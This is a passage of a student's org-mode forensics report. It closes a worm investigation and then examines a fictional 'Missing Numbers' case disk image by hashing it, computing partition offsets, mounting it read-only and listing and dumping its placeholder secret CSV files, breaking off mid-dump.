    ! RUID          PID TTY    CMD
    ! lnuitsac     2883 pts/1  /bin/bash --noediting -i
    chkutmp: nothing deleted
    #+END_SRC

*** Search for deleted files on Ext2.
    <<deletedfiles>>

  Searching for deleted files on a Ext2 disk.

  Commands:

  #+BEGIN_SRC sh
    yes | sudo e2undel -d /dev/loop0 -s /images/recovered -a -tw
  #+END_SRC

  Results:

  #+BEGIN_SRC org
  e2undel 0.82
  Trying to recover files on /dev/loop0, saving them on /images/recovered

  /dev/loop0 opened for read-only access
  /dev/loop0 was not cleanly unmounted.
  Do you want wo continue (y/n)? 121680 inodes (85986 free)
  485958 blocks of 4096 bytes (128401 free)
  last mounted on Mon Jan  4 09:42:40 2010
  no entries for /dev/loop0 in log file
  searching for deleted inodes on /dev/loop0:
  121680 inodes scanned, 0 deleted files found
  #+END_SRC

** Report findings

   When looking at Kevins bash history I could find out that he had
   created a crontab entry that will sync his music every night at 4
   [[[kevinbashhistory]]]. By looking at the total size of Kevins music
   folder it shows that he synced 280MB [[[kevinsmusic]]]. There was no
   evidence on that a worm have entered the system. There was no
   deleted files [[[deletedfiles]]] and =chkrootkit= could not find
   anything [[[chkrootkit]]].

** Conclusion

   There was no worm in the system. The network traffic was generated
   from Kevins music syncing.

** Glossary

   - rsync :: Application for syncronizing to files between computers.

* Forensic Report Act 2: The Missing Numbers
  :PROPERTIES:
  :results:  value code
  :author:   John Herrlin
  :email:    jh222jx@student.lnu.se
  :END:
  #+DATE: <2007-09-15 Sat>
  #+AUTHOR: John Herrlin
  #+EMAIL: jh222jx@student.lnu.se

** Executive summary

   Your cousin Jimmy down at the precinct thought he'd throw you a
   bone so he sent you this case. It seems like a local punk broke into a
   server at Yoyodyne Defense, stole a protected spreadsheet chock full
   of secret numbers, and got caught trying to fence it to an undercover
   cop for a pocketful of cryptocoins. He says he got the spreadsheet
   "from a friend" but the story doesn't check out. The boys at the
   station seized his computer with an outstanding warrant for "Second
   Degree Music Piracy" but didn't find any evidence on it, so if they're
   going to get him for more than "Possession of Stolen Numbers," they
   need reasonable proof that he actually did it.  Yoyodyne graciously
   sent an ext2 disk image of the server that had the file on it for you
   to examine. The only other thing they know is that the kid's IP
   address at home was 207.92.30.41 at the time of the heist.

   You may need to specify the filesystem type of the provided image in
   order to mount it properly. See the instructions for mount for more
   information.

   Yhey know the file was stolen, but they need to know precisely how
   and whether this kid is responsible. Finally, Yoyodyne wants your
   professional recommendation as to what they need to do before
   putting the server back into production.

** Methodology
*** Download image

    Download the act2 assignemnt and check SHA hash.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cd /images
      sudo ./loadimage.sh act2.img
      sha256sum act2.img
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
      Loading image. Please wait...
      Decompressing image. Please wait...
      Done.
      bdde7d0202921cf82688904ad2662f2b15e9066855934ce9357b66405f25c565  act2.img
    #+END_SRC

*** Examin the image.

    Examin the =/images/sda1= image that was loaded. The reason to do
    this is to verify the offsetsto the partitions.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      file /images/act2.img
      fdisk -lu /images/act2.img
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
      /images/act2.img: x86 boot sector, LInux i386 boot LOader; partition
      1: ID=0x83, active, starthead 1, startsector 63, 2923767 sectors;
      partition 2: ID=0x82, starthead 0, startsector 2923830, 979965
      sectors, code offset 0xe8

      Disk /images/act2.img: 0 MB, 0 bytes
      255 heads, 63 sectors/track, 0 cylinders, total 0 sectors
      Units = sectors of 1 * 512 = 512 bytes
      Sector size (logical/physical): 512 bytes / 512 bytes
      I/O size (minimum/optimal): 512 bytes / 512 bytes
      Disk identifier: 0xe43be43b

                 Device Boot      Start         End      Blocks   Id  System
      /images/act2.img1   *          63     2923829     1461883+  83  Linux
      /images/act2.img2         2923830     3903794      489982+  82  Linux swap / Solaris
    #+END_SRC

    Here is a table with the offsets that is found on the disk.  We can
    see that there is three paritions on the disk.

    | Parition  |   Start |     Offset |
    |-----------+---------+------------|
    | act2.img1 |      63 |      32256 |
    | act2.img2 | 2923830 | 1497000960 |
    #+TBLFM: $3=$2*512

*** Mount a loop image.

    Mount the first "loop0" to =/images/sda1=, this is the file system
    to examin.  This disk should be the root disk where users and
    systems is. The partition is mounted as read only.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo losetup /dev/loop0 /images/act2.img -o 32256
      sudo mount /dev/loop0 /images/sda1 -t ext2 -o ro
      df -Th | grep /images/sda1
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
      /dev/loop0    ext2    1.4G  179M  1.2G  14% /images/sda1
    #+END_SRC

*** Get operating system

    What operating system are the examining host running.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      cat /images/sda1/etc/issue
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    Debian GNU/\s 3.0 \n \l
    #+END_SRC

*** Get time zone

    What time zone was configured to the host.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
     sudo cat /images/sda1/etc/timezone
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    America/Los_Angeles
    #+END_SRC

*** Look at /

    Look at the root directory of the mounted system.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      ls -la /images/sda1
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    total 116
    drwxr-xr-x 21 root root     4096 2007-09-10 03:07 .
    drwxr-xr-x  6 root root     4096 2007-09-15 10:49 ..
    drwxr-xr-x  2 root root     4096 2007-09-10 03:00 bin
    drwxr-xr-x  2 root root     4096 2007-09-09 19:50 boot
    drwxr-xr-x  2 root root     4096 2007-09-09 19:49 cdrom
    drwxr-xr-x  9 root root    24576 2007-09-10 04:32 dev
    drwxr-xr-x 39 root root     4096 2007-09-10 04:32 etc
    drwxr-xr-x  2 root root     4096 2007-09-09 19:49 floppy
    drwxrwsr-x  9 root staff    4096 2007-09-10 04:21 home
    drwxr-xr-x  2 root root     4096 2007-09-09 19:49 initrd
    drwxr-xr-x  5 root root     4096 2007-09-10 02:59 lib
    drwx------  2 root root    16384 2007-09-09 19:46 lost+found
    drwxr-xr-x  2 root root     4096 2002-02-08 07:42 mnt
    drwxr-xr-x  2 root root     4096 2007-09-09 19:49 opt
    drwxr-xr-x  2 root root     4096 2002-02-08 07:42 proc
    drwxr-xr-x  3 root root     4096 2007-09-10 04:23 root
    drwxr-xr-x  2 root root     4096 2007-09-10 02:59 sbin
    drwxrws---  4 root libuuid  4096 2007-09-10 03:07 secrets
    drwxrwxrwt  2 root root     4096 2007-09-10 04:22 tmp
    drwxr-xr-x 12 root root     4096 2007-09-09 19:49 usr
    drwxr-xr-x 13 root root     4096 2007-09-09 19:49 var
    lrwxrwxrwx  1 root root       26 2007-09-09 19:46 vmlinuz -> boot/vmlinuz-2.2.20-idepci
    #+END_SRC

*** Look into =secrets=

    List whats in the secret directory.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo ls -lRa /images/sda1/secrets
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/secrets:
    total 16
    drwxrws---  4 root libuuid 4096 2007-09-10 03:07 .
    drwxr-xr-x 21 root root    4096 2007-09-10 03:07 ..
    drwxrwx---  2 root libuuid 4096 2007-09-10 03:07 numbers
    drwxrwx---  2 root libuuid 4096 2007-09-10 04:19 other

    /images/sda1/secrets/numbers:
    total 552
    drwxrwx--- 2 root libuuid 4096 2007-09-10 03:07 .
    drwxrws--- 4 root libuuid 4096 2007-09-10 03:07 ..
    -rw-r----- 1 root libuuid 6212 2007-09-10 03:07 100.csv
    -rw-r----- 1 root libuuid  721 2007-09-10 03:07 10.csv
    -rw-r----- 1 root libuuid  782 2007-09-10 03:07 11.csv
    -rw-r----- 1 root libuuid  843 2007-09-10 03:07 12.csv
    -rw-r----- 1 root libuuid  904 2007-09-10 03:07 13.csv
    -rw-r----- 1 root libuuid  965 2007-09-10 03:07 14.csv
    -rw-r----- 1 root libuuid 1026 2007-09-10 03:07 15.csv
    -rw-r----- 1 root libuuid 1087 2007-09-10 03:07 16.csv
    -rw-r----- 1 root libuuid 1148 2007-09-10 03:07 17.csv
    -rw-r----- 1 root libuuid 1209 2007-09-10 03:07 18.csv
    -rw-r----- 1 root libuuid 1270 2007-09-10 03:07 19.csv
    -rw-r----- 1 root libuuid  171 2007-09-10 03:07 1.csv
    -rw-r----- 1 root libuuid 1331 2007-09-10 03:07 20.csv
    -rw-r----- 1 root libuuid 1392 2007-09-10 03:07 21.csv
    -rw-r----- 1 root libuuid 1453 2007-09-10 03:07 22.csv
    -rw-r----- 1 root libuuid 1514 2007-09-10 03:07 23.csv
    -rw-r----- 1 root libuuid 1575 2007-09-10 03:07 24.csv
    -rw-r----- 1 root libuuid 1636 2007-09-10 03:07 25.csv
    -rw-r----- 1 root libuuid 1697 2007-09-10 03:07 26.csv
    -rw-r----- 1 root libuuid 1758 2007-09-10 03:07 27.csv
    -rw-r----- 1 root libuuid 1819 2007-09-10 03:07 28.csv
    -rw-r----- 1 root libuuid 1880 2007-09-10 03:07 29.csv
    -rw-r----- 1 root libuuid  232 2007-09-10 03:07 2.csv
    -rw-r----- 1 root libuuid 1941 2007-09-10 03:07 30.csv
    -rw-r----- 1 root libuuid 2002 2007-09-10 03:07 31.csv
    -rw-r----- 1 root libuuid 2063 2007-09-10 03:07 32.csv
    -rw-r----- 1 root libuuid 2124 2007-09-10 03:07 33.csv
    -rw-r----- 1 root libuuid 2185 2007-09-10 03:07 34.csv
    -rw-r----- 1 root libuuid 2246 2007-09-10 03:07 35.csv
    -rw-r----- 1 root libuuid 2307 2007-09-10 03:07 36.csv
    -rw-r----- 1 root libuuid 2368 2007-09-10 03:07 37.csv
    -rw-r----- 1 root libuuid 2429 2007-09-10 03:07 38.csv
    -rw-r----- 1 root libuuid 2490 2007-09-10 03:07 39.csv
    -rw-r----- 1 root libuuid  293 2007-09-10 03:07 3.csv
    -rw-r----- 1 root libuuid 2551 2007-09-10 03:07 40.csv
    -rw-r----- 1 root libuuid 2612 2007-09-10 03:07 41.csv
    -rw-r----- 1 root libuuid 2673 2007-09-10 03:07 42.csv
    -rw-r----- 1 root libuuid 2734 2007-09-10 03:07 43.csv
    -rw-r----- 1 root libuuid 2795 2007-09-10 03:07 44.csv
    -rw-r----- 1 root libuuid 2856 2007-09-10 03:07 45.csv
    -rw-r----- 1 root libuuid 2917 2007-09-10 03:07 46.csv
    -rw-r----- 1 root libuuid 2978 2007-09-10 03:07 47.csv
    -rw-r----- 1 root libuuid 3039 2007-09-10 03:07 48.csv
    -rw-r----- 1 root libuuid 3100 2007-09-10 03:07 49.csv
    -rw-r----- 1 root libuuid  354 2007-09-10 03:07 4.csv
    -rw-r----- 1 root libuuid 3161 2007-09-10 03:07 50.csv
    -rw-r----- 1 root libuuid 3222 2007-09-10 03:07 51.csv
    -rw-r----- 1 root libuuid 3283 2007-09-10 03:07 52.csv
    -rw-r----- 1 root libuuid 3344 2007-09-10 03:07 53.csv
    -rw-r----- 1 root libuuid 3405 2007-09-10 03:07 54.csv
    -rw-r----- 1 root libuuid 3466 2007-09-10 03:07 55.csv
    -rw-r----- 1 root libuuid 3527 2007-09-10 03:07 56.csv
    -rw-r----- 1 root libuuid 3588 2007-09-10 03:07 57.csv
    -rw-r----- 1 root libuuid 3649 2007-09-10 03:07 58.csv
    -rw-r----- 1 root libuuid 3710 2007-09-10 03:07 59.csv
    -rw-r----- 1 root libuuid  415 2007-09-10 03:07 5.csv
    -rw-r----- 1 root libuuid 3771 2007-09-10 03:07 60.csv
    -rw-r----- 1 root libuuid 3832 2007-09-10 03:07 61.csv
    -rw-r----- 1 root libuuid 3893 2007-09-10 03:07 62.csv
    -rw-r----- 1 root libuuid 3954 2007-09-10 03:07 63.csv
    -rw-r----- 1 root libuuid 4015 2007-09-10 03:07 64.csv
    -rw-r----- 1 root libuuid 4076 2007-09-10 03:07 65.csv
    -rw-r----- 1 root libuuid 4137 2007-09-10 03:07 66.csv
    -rw-r----- 1 root libuuid 4198 2007-09-10 03:07 67.csv
    -rw-r----- 1 root libuuid 4259 2007-09-10 03:07 68.csv
    -rw-r----- 1 root libuuid 4320 2007-09-10 03:07 69.csv
    -rw-r----- 1 root libuuid  476 2007-09-10 03:07 6.csv
    -rw-r----- 1 root libuuid 4381 2007-09-10 03:07 70.csv
    -rw-r----- 1 root libuuid 4442 2007-09-10 03:07 71.csv
    -rw-r----- 1 root libuuid 4503 2007-09-10 03:07 72.csv
    -rw-r----- 1 root libuuid 4564 2007-09-10 03:07 73.csv
    -rw-r----- 1 root libuuid 4625 2007-09-10 03:07 74.csv
    -rw-r----- 1 root libuuid 4686 2007-09-10 03:07 75.csv
    -rw-r----- 1 root libuuid 4747 2007-09-10 03:07 76.csv
    -rw-r----- 1 root libuuid 4808 2007-09-10 03:07 77.csv
    -rw-r----- 1 root libuuid 4869 2007-09-10 03:07 78.csv
    -rw-r----- 1 root libuuid 4930 2007-09-10 03:07 79.csv
    -rw-r----- 1 root libuuid  537 2007-09-10 03:07 7.csv
    -rw-r----- 1 root libuuid 4991 2007-09-10 03:07 80.csv
    -rw-r----- 1 root libuuid 5052 2007-09-10 03:07 81.csv
    -rw-r----- 1 root libuuid 5113 2007-09-10 03:07 82.csv
    -rw-r----- 1 root libuuid 5174 2007-09-10 03:07 83.csv
    -rw-r----- 1 root libuuid 5235 2007-09-10 03:07 84.csv
    -rw-r----- 1 root libuuid 5296 2007-09-10 03:07 85.csv
    -rw-r----- 1 root libuuid 5357 2007-09-10 03:07 86.csv
    -rw-r----- 1 root libuuid 5418 2007-09-10 03:07 87.csv
    -rw-r----- 1 root libuuid 5479 2007-09-10 03:07 88.csv
    -rw-r----- 1 root libuuid 5540 2007-09-10 03:07 89.csv
    -rw-r----- 1 root libuuid  598 2007-09-10 03:07 8.csv
    -rw-r----- 1 root libuuid 5601 2007-09-10 03:07 90.csv
    -rw-r----- 1 root libuuid 5662 2007-09-10 03:07 91.csv
    -rw-r----- 1 root libuuid 5723 2007-09-10 03:07 92.csv
    -rw-r----- 1 root libuuid 5784 2007-09-10 03:07 93.csv
    -rw-r----- 1 root libuuid 5845 2007-09-10 03:07 94.csv
    -rw-r----- 1 root libuuid 5906 2007-09-10 03:07 95.csv
    -rw-r----- 1 root libuuid 5967 2007-09-10 03:07 96.csv
    -rw-r----- 1 root libuuid 6028 2007-09-10 03:07 97.csv
    -rw-r----- 1 root libuuid 6089 2007-09-10 03:07 98.csv
    -rw-r----- 1 root libuuid 6150 2007-09-10 03:07 99.csv
    -rw-r----- 1 root libuuid  659 2007-09-10 03:07 9.csv
    -rw-r----- 1 root libuuid   45 2007-09-10 03:07 NOTICE

    /images/sda1/secrets/other:
    total 52
    drwxrwx--- 2 root libuuid  4096 2007-09-10 04:19 .
    drwxrws--- 4 root libuuid  4096 2007-09-10 03:07 ..
    -rw-r--r-- 1 1003    1003 20480 2007-09-10 04:19 newsecret.data
    -rw-r----- 1 root libuuid  4096 2007-09-10 03:07 secret2.data
    -rw-r----- 1 root libuuid 16384 2007-09-10 03:07 secret3.data
    -rw-r----- 1 root libuuid  2048 2007-09-10 03:07 secret.data
    #+END_SRC

    Looks like the secret numbers are here.

    Look at the files.

    #+CAPTION: Commands
    #+BEGIN_SRC sh
      sudo find /images/sda1/secrets -print -type f -name '*' -exec tail -n 7 {} \;
    #+END_SRC

    #+CAPTION: Results
    #+BEGIN_SRC text
    /images/sda1/secrets
    /images/sda1/secrets/numbers
    /images/sda1/secrets/numbers/1.csv
    YOYODYNE DEFENSE (TOP SECRET)
    SECRET NUMERICAL DATA SHEET NAME '1'
    Sat Sep  8 18:12:37 PDT 2007

    22440	23188	14913	16765	 8900	32617	17809	28071	14572	 4917

    END OF LINE
    /images/sda1/secrets/numbers/2.csv
    SECRET NUMERICAL DATA SHEET NAME '2'
    Sat Sep  8 18:12:37 PDT 2007

    24257	25887	15416	31127	20809	20186	12903	11550	30932	20390
    27185	19238	31534	24433	 5351	21139	15636	 7465	 2069	20359

    END OF LINE
    /images/sda1/secrets/numbers/3.csv
    Sat Sep  8 18:12:37 PDT 2007

    10145	12876	16045	 8119	27503	29224	14961	15476	18615	31540
    12393	13350	15889	 3176	28273	12250	12011	14985	18925	27115
    16095	24154	28805	22029	 1745	14722	 2208	15894	32716	32316

    END OF LINE
    /images/sda1/secrets/numbers/4.csv

    12870	16923	16799	13278	28983	26962	23985	 7079	10387	 5598
    20857	25945	 3667	16989	29566	27797	 1106	17457	12938	 9009
    22149	 4875	13389	 8607	 8440	32060	16816	21023	 6540	21691
     7418	 8868	14706	24821	 7590	27016	  614	 8536	11774	26863

    END OF LINE
    /images/sda1/secrets/numbers/5.csv
    32435	 5262	17679	13836	25248	13400	 7206	19128	 6249	 8101
    19809	24255	27639	  337	 9228	 2245	15691	14878	16876	31575
     1905	15150	28171	14794	27173	 3135	 1092	16084	 8770	31140
    20877	28903	 7406	 9735	26887	   81	 4487	31712	15815	 2837
    20044	15028	 3426	 8839	 9163	 7182	26426	 3753	 6926	19518

    END OF LINE
    /images/sda1/secrets/numbers/6.csv
     9249	 8280	22266	18755	   29	 1129	22997	 7250	30739	29278
    20900	22213	 7616	 7822	25176	26251	20570	 1077	 6637	27896
    31577	19032	27150	29943	30217	 6748	 4232	20750	20433	17509
     6769	23831	 5440	19823	28181	 8120	23005	17199	 1955	 1959
     4779	29095	21660	16543	 3454	22156	23031	23585	 4352	28247

    END OF LINE
    /images/sda1/secrets/numbers/7.csv
    13596	26062	17260	20457	 2450	 3105	 9714	 8770	  141	11958
     6751	12022	 8403	19909	17579	14248	32618	 8418	25628	 5343
    16410	 5062	 7707	 7605	 8615	17367	 6867	24133	 4555	19068
    20367	18642	 1269	24611	 4816	19896	 3524	 9231	22065	 1555
    28738	 5346	 8699	23857	11489	 1518	11912	25784	16182	 7484

    END OF LINE
    /images/sda1/secrets/numbers/8.csv
    11934	 7875	16699	12401	21741	22582	24107	27484	31400	31875
    16200	24257	10225	 4953	16002	 2156	10782	24556	14725	 5311
     4918	28873	29586	 4449	13612	24666	14618	 7846	 5337	 4665
     8479	19388	 4283	31029	 2123	 2459	14191	12837	 8653	24746
     2544	32623	14839	21810	 9613	29014	 1688	 9860	 4524	18183

    END OF LINE
    /images/sda1/secrets/numbers/9.csv
     6139	15881	12994	11865	17575	28021	 1981	18468	32466	26223
    23969	27020	 8305	21592	29840	 3700	23545	19429	19704	 4808
     9132	28281	15809	 2873	14758	26431	16699	28086	13478	 7691
     9418	17833	 1437	15342	 1871	28662	18936	23963	21077	 6836
    30382	 3965	 6656	 1193	10248	28564	 4022	14472	 8756	 4371

    END OF LINE
    /images/sda1/secrets/numbers/10.csv
    11985	13082	 2963	10504	20734	22532	30304	11213	32398	 1986
    30696	32024	10509	 4926	16626	 7900	19435	 5995	30658	21852
     2023	 4678	28522	23181	 2361	19342	 2006	27433	 9346	 3394
      661	 2451	22132	26591	22631	 4718	 4673	32342	23436	32507
     2756	 5583	12999	28982	25202	25888	31028	26032	28159	24588

    END OF LINE
    /images/sda1/secrets/numbers/11.csv
     7637	30618	21151	 4419	 7727	12399	22399	12101	27424	 1695
    13125	25925	30557	12558	11084	 1053	16432	20269	 2098	 7858
    17614	17195	25244	32259	 6009	  730	32685	18934	25686	 2913
    31043	29405	 2572	25511	11767	10187	 8224	22907	13523	26010
     1811	25987	20690	27319	24121	25067	 8216	 7092	31575	32713

    END OF LINE
    /images/sda1/secrets/numbers/12.csv
     9959	16039	 7542	16242	28040	 6563	29447	 2472	32102	20226
    15708	15428	15992	18199	25917	16600	22521	 7014	15506	13894
    16135	22292	21590	21772	 4862	21005	13914	19541	25489	 4855
    32447	25531	15532	25562	 4401	28125	 5133	 1420	26083	22437
    29852	11741	10831	24662	  911	15495	12715	18008	15167	21204

    END OF LINE
    /images/sda1/secrets/numbers/13.csv
    27708	29920	27145	17178	16820	19560	 6951	29352	25664	32680
    23568	17011	 4517	17767	 4484	25574	15328	15934	31287	26661
    30162	 8658	14688	26020	32424	  974	32256	23429	 6156	27811
    21235	28342	 4877	16895	25528	23751	16335	15118	16896	16524
    11250	23667	30712	 1142	23491	14341	29526	 7858	27173	27722

    END OF LINE
    /images/sda1/secrets/numbers/14.csv
    20574	13562	16889	13494	10635	23894	12468	12088	30919	25890
    27725	 8137	18156	28692	 9887	 9151	24051	 7585	 4560	16067
     7674	26388	31294	19533	 5911	17264	 4904	 3298	29663	11531
    25117	19213	  180	25831	29989	21535	23506	 4047	20400	16550
     6681	 2358	14914	18606	27800	 1999	24796	 8122	 4829	28651

    END OF LINE
    /images/sda1/secrets/numbers/15.csv
    25136	23967	25938	  812	 2325	19886	13285	19422	21297	19973
    21938	 5879	24547	32576	 7596	28804	11191	15315	20700	 6226
     5034	16529	 4605	23390	20509	20986	27350	 6142	 9109	27207
     3931	22736	14648	15415	13955	12902	28423	 5783	 9448	20398
     2012	29844	17696	22819	  291	18112	27101	 8885	 2136	16614

    END OF LINE
    /images/sda1/secrets/numbers/16.csv
    31258	32353	17402	23256	30583	25603	 2428	18401	22775	  610
    16538	15613	11217	26588	27819	12694	 8290	14143	26066	26926
    29933	25038	14366	31312	20499	30229	22626	22583	18192	 3949
    19157	19263	 3003	12877	 5994	 1039	32316	 8535	10222	13700
     7818	30494	27619	24924	 6572	 4281	24094	17319	28331	 5385

    END OF LINE
    /images/sda1/secrets/numbers/17.csv
    26861	16468	20017	 2657	19151	29429	31862	28049	 5735	15707
    19150	 9263	14068	  760	14663	21212	 7405	25752	31064	12072
    13589	 6275	31185	31511	17476	10324	17795	15448	13295	12444
     8367	11071	 7036	32310	 4399	 5511	 4680	 9576	15718	12490
     5748	28350	19945	 6332	 5235	13735	15850	29995	23380	 5324

    END OF LINE
    /images/sda1/secrets/numbers/18.csv
     4350	 8180	13754	22064	29215	18618	15528	15291	15295	12000
    18076	23646	 3937	13184	 1967	13200	16307	29622	11356	12847
     7219	26843	23312	 3867	19358	20604	17011	 1425	24861	 6172
    16505	 7497	 6191	18606	28199	22607	25429	11729	 7205	25251
    14719	13513	 3081	 8079	20025	16193	29277	12490	 8341	26051

    END OF LINE
    /images/sda1/secrets/numbers/19.csv
    32618	 5840	19564	23431	25005	 9665	27852	18292	 4405	14908
     4376	12273	10910	 5132	18682	16790	28321	25635	22993	19199
    17969	 5262	17964	13472	27735	 8986	20740	10571	22990	31428
    30909	15234	20062	30690	 9691	 4990	 5113	  786	 2436	29180
    22423	28390	26554	 5066	13265	 1100	18773	16917	18751	27070

    END OF LINE
    /images/sda1/secrets/numbers/20.csv
    30909	 2558	 6689	  275	19501	 7932	 4819	16262	31869	 5380
      848	 7496	15254	 6288	13184	15913	20287	10864	 4389	10106
    20554	28043	 4332	14884	12416	 5203	 5173	12933	13134	10761
    24482	18958	17708	13238	28257	22173	24017	25829	11834	  923
    22808	25633	28759	  213	29360	23345	 6871	17179	20614	20246

    END OF LINE
    /images/sda1/secrets/numbers/21.csv
    16496	 9729	12544	31872	31401	22840	19833	11157	18556	21553
    10199	 8083	21370	31846	15142	 5416	 5233	25080	23831	25111
    26541	 9526	 8862	21410	10482	10479	29261	 1972	 4916	 7544
    24686	11474	24604	12412	12515	21696	25404	28038	 6846	17907
     7436	 6992	10656	30650	  428	 8649	22738	 9514	28504	17640

    END OF LINE
    /images/sda1/secrets/numbers/22.csv
    19340	10050	22052	29600	 8013	11336	 1022	16384	26445	28687
    20142	 8233	16728	11416	21852	31044	 4814	14121	10520	 1630
    19523	20919	24543	13743	19158	10002	23372	 3752	29522	24014
    16158	27838	25350	28149	21357	 6905	21092	 9582	20139	 7227
     1372	 1836	17245	11345	25974	28950	11671	17851	 8626	13497

    END OF LINE
    /images/sda1/secrets/numbers/23.csv
     5284	15077	 8538	16024	29599	18333	16213	29507	28646	15950
     7318	21201	28574	 4207	16520	21031	  775	 9856	23105	 5800
    19781	 9959	29734	24179	11756	20107	13916	12383	30541	14130
    25589	 4024	15746	10139	32471	12214	 2619	18779	15980	25281
      327	24696	17676	16743	16866	24775	16426	17689	 4289	32005

    END OF LINE
    /images/sda1/secrets/numbers/24.csv
    20839	12319	 3931	16572	 4602	22016	23150	13583	20363	28801
    18306	18889	23807	18740	 4392	15487	 1211	17918	26940	 5580
    24561	15474	32538	12817	22189	 7916	15488	 6636	 5278	24429
    25921	26233	32421	 9274	 1455	11595	29983	10803	23494	12329
    28403	28916	10008	19592	14682	 3245	 2940	26316	26737	14786

    END OF LINE
    /images/sda1/secrets/numbers/25.csv
    11734	21862	 7570	11831	32033	25813	15743	26186	 9338	14346
    31055	 3419	 2083	19379	27895	16056	17508	14191	 9288	10942
     2087	19007	 7404	14121	32083	  429	27678	22557	23272	18362
     1068	28147	31967	 9097	21934	13253	 7615	18636	18564	 2744
     3583	12786	18577	11788	 1311	12557	25145	 7141	26757	 9093

    END OF LINE
    /images/sda1/secrets/numbers/26.csv
    12303	  627	22687	29824	16821	 3865	 8681	 8676	28010	17586
    27129	 3019	 8160	31284	10445	24045	 9511	20183	 3625	17336
     7917	18854	 6194	 4280	 8823	26058	30667	  962	14942	 6033
    24243	 4324	18442	 5697	 4955	24077	  240	30368	26248	24187
      907	25150	26285	14567	16411	30600	27910	25715	12576	 7822

    END OF LINE
    /images/sda1/secrets/numbers/27.csv
     2743	11035	 1921	27994	 2078	16907	 8249	 3680	30087	 9253
    16180	 1038	30992	 5143	 8117	 8893	 6561	 6063	15872	24654
    25745	27158	17133	18114	16921	21964	 7214	29848	 9337	12903
    19807	18154	32236	  523	17874	 2374	10573	27304	18200	18253
    12677	 1782	10320	 7182	 9148	19250	  559	 6944	22587	31126

    END OF LINE
    /images/sda1/secrets/numbers/28.csv
    25859	 7466	 8059	11686	19816	27294	  832	 1170	21354	25838
     8091	15751	14648	16269	 4441	 6220	13298	 5582	 8792	 8010
     2072	27865	27093	 4073	  179	22891	 9587	27818	11589	17745
     5898	 5380	 4721	 4258	29493	32512	14699	 2751	11418	28307
    18974	32524	10232	18111	 7198	20843	 9458	20584	27220	26237

    END OF LINE
    /images/sda1/secrets/numbers/29.csv
     4048	 2872	10988	  164	  283	 9611	18493	23106	24613	 9507
    13236	21516	10856	25218	28861	26616	24952	27257	25510	 6297
     4354	21113	24059	15436	14472	 1433	 5279	20264	 5338	22118
    23471	30627	 1363	24942	17431	10756	 2265	 3211	30448	 5773
     3730	12016	27296	20068	 5735	11765	19888	19269	23865	 6818

    END OF LINE
    /images/sda1/secrets/numbers/30.csv
    20532	31875	16292	31189	 5617	13549	23900	25621	27197	16677
     8046	16212	 2796	 7949	29621	24317	 5070	26715	 4347	12559
    17543	 6472	30262	12968	18480	 5630	 8582	 8533	23210	 6846
    15082	29979	26566	  724	11974	28484	   23	 4668	29717	18923
    16273	11794	31342	21575	  490	12218	31672	 1975	  173	16083

    END OF LINE
    /images/sda1/secrets/numbers/31.csv
    16973	23447	 6468	14563	 9402	 2861	14069	22103	 8445	32396
     1191	25594	31392	14955	10345	 5463	28408	 3781	 5507	29458
    27813	25975	 3286	28904	14312	24222	14353	26475	 1960	22190
    19352	28027	26434	12882	23349	19843	26899	 3080	19836	 4729
    30151	 8056	 6656	26771	17504	 3735	15928	19914	18182	23680

    END OF LINE
    /images/sda1/secrets/numbers/32.csv
     7180	22457	 4754	30904	25796	10255	28975	21723	10104	 8070
     9155	    5	22990	 6304	12749	31746	30110	19154	 6129	16620
    26497	 1061	22370	13857	23070	24721	 4109	16133	27187	 6932
     4486	22397	 3941	21653	 3763	31782	17864	27772	24634	23129
    17454	18190	  428	  992	19248	 7561	13678	 8821	22782	13315

    END OF LINE
    /images/sda1/secrets/numbers/33.csv
    24643	17604	20144	31226	 7285	18289	14526	15472	 9457	 2211
     4938	29201	19151	24497	32419	26850	28836	 8368	22225	22693
      232	 2464	 5965	 8675	28169	22103	16003	29115	 6219	10033
    27912	22125	13670	 9845	15515	 4262	 5597	 6278	 2781	11657
    25632	17102	13264	13697	14689	21866	30737	31689	 9270	17301

    END OF LINE
    /images/sda1/secrets/numbers/34.csv
    20213	14142	16775	12036	18631	26232	 2778	12552	 4950	19243
    17390	13793	12728	20604	25185	 7467	10343	23943	28472	17160
     4029	31791	13247	 8652	21038	 8358	22564	25195	 4679	23995
    20434	 1956	29802	 4582	12175	 8169	18502	22805	18772	10773
    19993	20276	10736	 6349	 5029	28543	21595	 8369	 9459	 7303

    END OF LINE
    /images/sda1/secrets/numbers/35.csv
    23192	23617	24230	24672	27579	20641	  886	12256	25856	11742
    11340	14418	31927	30182	 3048	19849	31810	   38	28475	17561
    16002	13695	 4018	 9778	10501	 4105	15940	10943	 3052	23178
    13114	23618	 5277	27573	 3777	31214	16174	22818	22065	31105
    29324	24081	31259	17000	13167	29150	12565	32401	 6654	19012

    END OF LINE
    /images/sda1/secrets/numbers/36.csv
    15503	 8505	23277	31621	 3569	13364	25614	17801	30531	 6351
    13102	13671	24664	10826	10507	19305	32722	25895	 2423	 7914
    23576	 6772	31407	 8319	24598	 3032	 7803	21221	32696	15456
     8457	 9898	10276	  519	22922	25756	30650	 9223	22666	21234
    31180	 4578	   16	  316	25117	32559	  377	26378	 1051	28709

    END OF LINE
    /images/sda1/secrets/numbers/37.csv
    10202	13646	12543	11874	10514	 1736	16737	 8078	 1794	25418
     1270	22693	24768	21834	12651	 7619	32200	19625	10558	32574
    20358	28484	22061	16806	32677	22361	15967	18813	 5909	23456
    16467	 1719	 2527	15653	 8588	 7152	13224	22247	23545	15727
     4358	11059	22054	  991	16774	27325	29221	11975	 7801	20867

    END OF LINE
    /images/sda1/secrets/numbers/38.csv
    20403	12136	 1155	31495	28125	13163	 5970	26389	 3817	29967
